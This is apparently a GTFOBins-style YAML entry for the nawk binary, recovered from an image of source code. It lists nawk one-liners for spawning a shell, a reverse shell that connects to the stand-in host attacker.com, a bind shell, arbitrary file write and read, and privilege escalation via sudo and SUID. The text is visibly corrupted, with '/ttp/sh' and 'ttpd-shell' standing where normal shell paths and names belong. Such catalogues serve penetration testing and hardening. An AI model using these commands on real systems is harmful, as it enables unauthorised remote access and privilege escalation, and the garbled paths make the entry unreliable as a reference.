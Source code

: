 ```yaml
---
functions:
  shell:
    - code: nawk 'BEGIN {system("/ttp/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nawk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-ttpd-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        nawk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        nawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        nawk '//' "$LFILE"
  sudo:
    - code: sudo nawk 'BEGIN {system("/ttp/sh")}'
  limited-suid:
    - code: ./nawk 'BEGIN {system("/ttp/sh")}'
---
```

